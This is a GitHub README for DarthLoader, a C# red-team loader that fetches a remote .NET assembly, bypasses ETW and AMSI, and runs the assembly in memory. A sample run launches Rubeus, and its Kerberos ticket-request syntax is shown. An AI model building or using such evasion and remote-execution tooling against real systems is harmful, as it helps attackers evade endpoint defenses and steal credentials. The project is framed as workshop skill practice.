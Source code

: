 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Bypass ETW and AMSI.
- Decrypt and run the assembly from memory.

```
 (                            (                                 
 )\ )                 )    )  )\ )              (               
(()/(      )  (    ( /( ( /( (()/(          )   )\ )   (   (    
/(_))  ( /(  )(   )\()))\()) /(_))  (   ( /(  (()/(  ))\  )(   
(_))_   )(_))(()\ (_))/((_)\ (_))    )\  )(_))  ((_))/((_)(()\  
|   \ ((_)_  ((_)| |_ | |(_)| |    ((_)((_)_   _| |(_))   ((_) 
| |) |/ _` || '_||  _|| ' \ | |__ / _ \/ _` |/ _` |/ -_) | '_| 
|___/ \__,_||_|   \__||_||_||____|\___/\__,_|\__,_|\___| |_| 
 
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123
[+] ETW bypassed!
[+] AMSI bypassed!
[*] Downloading and encrypting assembly with the key: testing123
[!] .Net assembly downloaded!
[*] Decrypting and executing assembly...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]
<-----SNIP----->
```

## To-do
- [X] Paramerize URL 
- [ ] Paramerize assembly parameters
- [ ] remote fetch congfig? (remote fetch assembly URL, Xor key etc.)
- [ ] Help menu
